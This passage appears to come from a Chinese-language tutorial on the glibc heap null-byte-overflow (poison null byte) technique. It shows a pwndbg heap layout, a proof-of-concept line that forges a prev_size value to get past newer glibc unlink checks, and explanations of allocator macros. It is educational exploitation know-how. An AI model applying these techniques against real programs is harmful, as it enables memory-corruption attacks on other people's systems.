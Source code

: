 ```c
pwndbg> x/800gx 0x555555757000
0x555555757000:	0x0000000000000000	0x0000000000000251 #tcache_perthread_struct
......
0x555555757250:	0x0000000000000000	0x0000000000000511 #a(malloc)
......
0x555555757760:	0x0000000000000000	0x0000000000000a11 #b(malloc)
    								//b_size_ptr==0x555555757768
......
0x555555758170:	0x0000000000000000	0x0000000000000511 #c(malloc)
......
0x555555758680:	0x0000000000000000	0x0000000000000111 #barrier(malloc)
...... 
0x555555758790:	0x0000000000000000	0x000000000001f871 #top_chunk
......
0x5555557588f0:	0x0000000000000000	0x0000000000000000
pwndbg> 
```

barrier防止在释放时堆块和top_chunk合并，体现了这个堆块的名字--barrier（屏障）。接下来修改堆块：

```c
	// added fix for size==prev_size(next_chunk) check in newer versions of glibc
	// https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30
	// this added check requires we are allowed to have null pointers in b (not just a c string)
	//*(size_t*)(b+0x9f0) = 0xa00;
	printf("In newer versions of glibc we will need to have our updated size inside b itself to pass "
		"the check 'chunksize(P) != prev_size (next_chunk(P))'\n");
	// we set this location to 0xa00 since 0xa00 == (0xa11 & 0xff00)
	// which is the value of b.size after its first byte has been overwritten with a NULL byte
	*(size_t*)(b+0x9f0) = 0xa00;
```

POC注释中提到了在glibc后续版本中对unlink添加了一些检查机制，如下图所示：

![](https://cdn.nlark.com/yuque/0/2021/png/574026/1620020304639-b3024cef-8e59-42ac-a926-033f8a98652d.png)

可以看到，在unlink的代码最前面添加了对p和nextchunk的检查：

```c
/* Get size, ignoring use bits */
#define chunksize(p) (chunksize_nomask (p) & ~(SIZE_BITS))
/* Size of the chunk below P.  Only valid if prev_inuse (P).  */
#define prev_size(p) ((p)->mchunk_prev_size)
/* Ptr to next physical malloc_chunk. */
#define next_chunk(p) ((mchunkptr) (((char *) (p)) + chunksize (p)))
```

+ chunksize(p)：获取p堆块的大小，不包含三个标志位。
+ prev_size(p)：获取p堆块的mchunk_prev_size
+ next_chunk(p)：获取p堆块相邻高地址的堆块地址

> 在malloc状态下返回的堆块指针指向堆块的起始地址
>
